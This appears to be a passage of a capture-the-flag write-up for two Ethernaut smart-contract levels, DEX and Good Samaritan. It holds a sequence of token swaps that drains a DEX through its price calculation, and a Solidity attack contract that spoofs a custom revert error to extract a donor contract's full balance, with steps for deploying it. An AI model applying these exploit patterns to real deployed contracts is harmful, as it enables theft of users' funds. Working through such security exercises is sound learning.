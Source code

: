 ===> submit level

### DEX
```
await contract.approve(contract.address, 500)
t1 = await contract.token1()
t2 = await contract.token2()
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

===> submit level

### Good Samaritan

`BadSaritan.sol`
```
pragma solidity ^0.8.0;

interface IGoodSamaritan {
  function requestDonation() external returns (bool enoughBalance);
} 

contract Attack {  
  error NotEnoughBalance();

  function pwn(address _addr) external { 
     IGoodSamaritan(_addr).requestDonation();
  }

  function notify(uint256 amount) external pure {
    // only revert on 10 coins
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
}
```

- Deploy the attack contact
- Copy instace address
- Click pwn function with param is instance address
- Confirm transaction

==> Submit level


## [Tip]
get instance of all 10 first level in once. => save time